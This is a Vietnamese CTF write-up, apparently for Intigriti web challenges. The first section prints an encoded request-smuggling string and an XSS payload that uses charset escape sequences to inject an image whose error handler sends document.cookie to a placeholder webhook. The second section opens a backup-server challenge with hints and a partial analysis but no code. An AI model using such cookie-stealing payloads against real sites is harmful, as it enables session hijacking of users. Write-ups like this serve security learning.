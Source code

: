 ```flag%20HTTP%2F1.1%0AHost%3A%20127.0.0.1%2F5000%0APassword%3A%20admin%0AContent-Type%3A%20application%2Fx-www-form-urlencoded%0AContent-Length%3A%2014%0A%0Ausername%3Dadmin```
    
![image](./images/image83.png)

Và đây là payload của mình

`
<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="><img src=a onerror=fetch('<Webhook-url>'%2bdocument.cookie)>">
`

Sau khi mình report thì đã có flag

![image](./images/image84.png)

Flag : INTIGRITI{fake_flag}  

## Global backups

#### Source

https://drive.google.com/file/d/1ebnv59RbD2QY_U5_oEidI4gOXx9M_rlA/view?usp=sharing

#### Hints 

Bun shell, Wildcard injection, crack session id, path traversal, argument injection

#### Solution

Đề bài cho mình một trang web sau giống với trang đăng nhập windows 10

![image](./images/image85.png)

Ok sau khi đọc source thì đây là những file mình cần lưu ý 

</details>

<details><summary>Dockerfile</summary></details>

<details><summary>router.ts</summary></details>

<details><summary>util.ts</summary></details>

</details>

<details><summary>index.ts</summary></details>
    
    
Phân tích : 
    
* Trang web sử dụng 2 service trong đó app là phần web trên còn backup đóng vai trò như một server ssh mà app có thể copy file vào 
* Có thể thấy mục tiêu của ta là thực thi được file /readflag để đọc được flag nên ban đầu mình nghĩ sẽ có lỗ hổng command injection hoặc path traversal gì đó có liên quan đến file
* Mình thử đăng nhập vào nhưng không được nên đọc lại source và phát hiện có vài chỗ đáng lưu ý 
    
Đầu tiên web sẽ sử dụng path /tmp/sessions là nơi lưu các file session của web và secret được lấy từ biến environment
    
```js
```